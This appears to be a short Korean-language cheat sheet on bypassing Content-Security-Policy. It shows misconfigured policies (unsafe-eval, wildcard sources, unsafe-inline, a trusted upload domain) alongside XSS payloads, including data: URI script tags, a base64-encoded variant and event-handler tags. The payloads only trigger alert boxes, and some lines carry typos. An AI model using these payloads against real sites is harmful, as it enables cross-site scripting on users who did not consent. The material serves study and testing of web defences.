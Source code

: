 # Bypass CSP
## 1. Unsafe eval()

```javascript
Content-Security-Policy: script-src https://safesite.com 'unsfae-eval' data: http://*
```

위 정책의 경우, scirpt-src를 안전하다고 생각되는 특정 도메인에 대해서 설정 했지만, unsafe-eval 지시어와, Wildcard의 잘못된 사용으로 취약점이 발생한다.

### [Payload]

```javascript
<script src="data:text/javascript,alert(document.domain)"></script>
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

## 2. Wildcard(*) 오사용2. Wildcard(*) 오사용

```javascript
Content-Security-Policy: script-src self' http://safesite data: http://*
```

위 정책의 경우 script-src 지시어를 통해 안전하다고 생각되는 특정 도메인에 대해서만 스크립트를 허용하지만, Wildcard 의 잘못된 사용으로 인해 취약점이 발생한다.

### [Payload]

```javascript
<script src="data:text/javascript,alert(document.domain)"></script>
```

## 3. Unsafe inline

```javascript
Content-Security-Policy: script-src ‘self’  'unsafe-inline'
```

위 정책의 경우 script-src 지시어를 self 를 통해 동일한 도메인에서만 허용 하도록 설정 되어 있지만, unsafe-inline 설정값이 매핑 되어 있어, 일반적인 <tag eventhandler=js> 형식이 작동이 가능하므로, 취약점이 발생한다.

### [Payload]

```javascript
<Svg OnLoad=alert(documnet.domain)>
<img src='' onerror=alert(1)>
```

## 4. 신뢰하는 도메인에 스크립트 업로드

신뢰하는 허용된 특정 도메인에서만 스크립트를 허용하지만, 해다 특정 도메인의 업로드 및 다운로드 기능이 존재하면 이를 악용할 수 있다. 

```javascript
Content-Security-Policy: script-src 'self'
```
